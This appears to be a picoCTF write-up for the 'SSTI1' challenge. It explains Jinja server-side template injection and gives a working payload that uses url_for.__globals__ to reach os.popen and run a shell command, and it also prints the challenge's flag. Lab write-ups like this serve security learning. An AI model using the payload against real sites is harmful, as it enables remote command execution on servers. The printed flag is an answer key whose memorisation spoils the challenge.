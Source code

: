 # 1. SSTI1

> I made a cool website where you can announce whatever you want! Try it out! Additional details will be available after launching your challenge instance.
<br/>> **The challenge demanded that I make use of a server-side template injection attack to display the flag on the screen.**

## Solution:
I made use of the fact that I could write into the template of the website using `{{}}` and the server would return whatever changes I made (respond to the change)
then, I injected the following line into the dialog box.

```
{{url_for.__globals__.os.popen("cat flag").read()}}
```
<br/>
Web page :

<img width="1920" height="1128" alt="image" src="https://github.com/user-attachments/assets/7146ef7e-dcd2-483e-b03d-2c00030c4048" />

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```

## Concepts learnt:

- **Templates** : Some webpages have dynamic mutable elements that can be changed, they are present in `{{}}`(this depends on syntax, Jinja usese `{{}}`)
- **Template Injections** - When user inputs in templates can be manipulated/tampered with to get data.
- In order to interact with the shell, we need to get into the os module, i.e. find a path to it and then execute whatever we want.
- `url_for` helps in locating any python function(which contaings `import os`)

## Notes:

- The challenge also could be solved using `curl` first to check the vulnerability and then to inject.
- 

## Resources:
I learnt about SSTI from :

- [https://www.youtube.com/watch?v=SN6EVIG4c-0]


***
